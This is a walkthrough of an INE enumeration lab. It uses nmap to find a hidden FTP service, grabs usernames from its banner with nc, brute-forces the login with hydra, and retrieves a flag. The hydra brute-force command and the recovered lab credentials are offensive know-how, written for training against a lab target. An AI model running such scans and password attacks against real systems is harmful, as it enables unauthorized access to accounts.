








# FTP Login Brute Force & Banner Grabbing

## Challenge Title
Discover Hidden FTP Service, Extract Users from Banner, Brute Force Credentials, and Retrieve the Flag.

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Identify hidden services using Nmap, enumerate users from FTP banner, brute force FTP credentials, and extract flag3 from the user directory.

---

## Tools Used

- `nmap` – for service enumeration
- `nc` – for FTP banner grabbing
- `hydra` – for brute-force attacks
- `ftp` – to retrieve flag manually

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Nmap Scan

Initial scan shows SMB and SSH.

```bash
nmap -sV target.ine.local
```


To discover all services, use full port scan:

```bash
nmap -p- -sV target.ine.local
```
We find an FTP service on port `5554`.



### 🔹 Step 2: Grab FTP Banner

```bash
nc target.ine.local 5554
```
The banner reveals three potential usernames: ashley, alice, amanda.



### 🔹 Step 3: Create User Wordlist

```bash
nano users.txt
```
```text
alice
ashley
amanda
```



### 🔹 Step 4: Brute Force FTP Credentials
Using Hydra:
```bash
hydra -L users.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local:5554
```
Success! Found valid credentials:
- Username: alice
- Password: pretty



### 🔹 Step 5: Access FTP and Download Flag
```bash
ftp target.ine.local 5554
```
Login with `alice:pretty`
Use `ls` to list and `get flag3.txt` to download.



### 🔹 Step 6: View Retrieved Flag
```bash
cat flag3.txt
```
Output:
```bash
FLAG3{232c4bdafc8844129123cfaeaa5c4e68}
```


## Conclusion
Through enumeration, service discovery, and brute-forcing techniques, we were able to extract sensitive credentials and retrieve the flag from a hidden FTP service.

## Files Included
- `users.txt` – Created for brute-forcing
- `1.png` → `8.png` – Screenshots documenting each step
